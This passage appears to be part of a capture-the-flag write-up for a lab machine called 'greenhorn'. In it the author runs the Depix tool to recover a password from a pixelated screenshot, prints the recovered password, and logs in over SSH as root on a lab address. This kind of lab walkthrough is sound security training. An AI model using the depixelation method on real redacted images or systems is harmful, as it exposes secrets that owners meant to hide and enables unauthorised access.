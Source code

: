 ```bash
```

Oddly, this file does not exist. We cannot create this file ourselves to exploit because we do not have permissions.

```bash
┌─[eclectic@parrot]─[~/Downloads/Depix]
└──╼ $python3 depix.py -p output-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o unpix.png
2024-07-26 00:08:21,427 - Loading pixelated image from output-000.ppm
2024-07-26 00:08:21,441 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
2024-07-26 00:08:21,891 - Finding color rectangles from pixelated space
2024-07-26 00:08:21,892 - Found 252 same color rectangles
2024-07-26 00:08:21,892 - 190 rectangles left after moot filter
2024-07-26 00:08:21,892 - Found 1 different rectangle sizes
2024-07-26 00:08:21,893 - Finding matches in search image
2024-07-26 00:08:21,893 - Scanning 190 blocks with size (5, 5)
2024-07-26 00:08:21,913 - Scanning in searchImage: 0/1674
2024-07-26 00:08:55,012 - Removing blocks with no matches
2024-07-26 00:08:55,013 - Splitting single matches and multiple matches
2024-07-26 00:08:55,016 - [16 straight matches | 174 multiple matches]
2024-07-26 00:08:55,016 - Trying geometrical matches on single-match squares
2024-07-26 00:08:55,261 - [29 straight matches | 161 multiple matches]
2024-07-26 00:08:55,261 - Trying another pass on geometrical matches
2024-07-26 00:08:55,476 - [41 straight matches | 149 multiple matches]
2024-07-26 00:08:55,476 - Writing single match results to output
2024-07-26 00:08:55,477 - Writing average results for multiple matches to output
2024-07-26 00:08:58,106 - Saving output image to: unpix.png
┌─[eclectic@parrot]─[~/Downloads/Depix]
└──╼ $


```

The unpixelated image reveals the password to be: `sidefromsidetheothersidesidefromsidetheotherside`

```bash
┌─[✗]─[eclectic@parrot]─[~/Downloads/Depix]
└──╼ $ssh root@10.10.11.25
root@10.10.11.25's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jul 26 07:14:01 AM UTC 2024

  System load:           0.01
  Usage of /:            57.0% of 3.45GB
  Memory usage:          13%
  Swap usage:            0%
  Processes:             257
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.25
  IPv6 address for eth0: dead:beef::250:56ff:feb0:77ef


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~# cd /root
root@greenhorn:~# ls
```